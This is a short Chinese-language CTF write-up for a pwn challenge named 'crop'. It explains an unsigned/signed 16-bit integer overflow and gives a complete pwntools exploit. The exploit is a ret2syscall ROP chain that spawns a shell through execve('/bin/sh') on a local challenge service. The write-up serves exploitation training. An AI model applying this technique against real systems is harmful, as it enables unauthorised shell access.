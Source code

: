 # crop

本题的考点是：
- 整数溢出
- ret2syscall

首先需要输入一个数字c，让初始为114的b加上c不能小于514，最后a=b进行赋值，要求a<0

但是这里的b和c都是uint16，而a是int16，所以存在整数溢出的问题

如果我们输入的c是-115，那么b+=c之后b成为了-1，但是由于uint16是无符号数，被解析后是65535，所以一定是大于514的

这样第一关就过了，之后就是简单的ret2syscall。

```python
payload = 'some padding...'
payload += p64(pop_rax_ret) + p64(59)   # rax 59
payload += p64(pop_rdi_ret) + p64(next(elf.search(b"/bin/sh\x00")))   # rdi
payload += p64(pop_rsi_ret) + p64(0)   # rsi
payload += p64(pop_rdx_ret) + p64(0)   # rdx
payload += p64(syscall) # execve("/bin/sh\x00",NULL.NULL)
```

所以完整的exp如下：

```python
from pwn import *

context.arch = "amd64"
DEBUG = 0

elf = ELF("../file/crop")
io = process("../file/crop") if DEBUG else remote("127.0.0.1", 20002)


io.sendlineafter("114", "-115") # 让b成为-1，uint16下的-1是65535，大于514

pop_rax_ret = 0x000000000040130a
pop_rdi_ret = 0x0000000000401304
pop_rdx_ret = 0x0000000000401308
pop_rsi_ret = 0x0000000000401306
ret = 0x000000000040101a
syscall = 0x000000000040130c

payload = b"b"*0x80 # padding stack
payload += b"woodwood"  # padding rbp
payload += p64(pop_rax_ret) + p64(59)   # rax 59
payload += p64(pop_rdi_ret) + p64(next(elf.search(b"/bin/sh\x00")))   # rdi
payload += p64(pop_rsi_ret) + p64(0)   # rsi
payload += p64(pop_rdx_ret) + p64(0)   # rdx
payload += p64(syscall) # execve("/bin/sh\x00",NULL.NULL)

io.sendlineafter("ok?", payload)

io.interactive()
```